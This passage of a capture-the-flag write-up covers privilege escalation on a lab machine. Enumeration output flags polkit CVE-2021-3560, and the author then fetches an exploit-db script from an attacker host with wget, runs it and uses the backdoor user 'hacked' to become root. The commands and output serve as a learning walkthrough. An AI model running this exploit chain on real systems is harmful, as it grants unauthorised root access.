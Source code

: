 ```bash
Vulnerable to CVE-2021-3560

╔══════════╣ Check for vulnerable cron jobs                                                                                                    
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs                                           
══╣ Cron jobs list                                                                                                                             
/usr/bin/crontab                                                                                                                               
@reboot /home/dwight/bot_restart.sh >> /home/dwight/hubot/.hubot.log 2>&1      
```

It seems that the machine has a vulnerable version of polkit.

Searching up the CVE, we found this exploit from exploitdb:

https://www.exploit-db.com/exploits/50011

Let’s upload the exploit and see if it works. 

```bash
wget http://10.10.16.9:8002/exploit.sh

chmod +x exploit.sh

dos2unix exploit.sh

./exploit.sh

[*] New user hacked created with uid of 1005
[*] Adding password to /etc/shadow and enabling user
./exploit.sh: line 73: 59760 Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2> /dev/null
[*] Exploit complete!
./exploit.sh: line 74: 59765 Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2> /dev/null

[*] Run 'su - hacked', followed by 'sudo su' to gain root access
[dwight@paper ~]$ su - hacked

```

Let’s follow the instructions:

```bash
su - hacked #password

sudo su
```

We are now root:

![image.png]({{ site.baseurl }}/assets/paper/image%2021.png)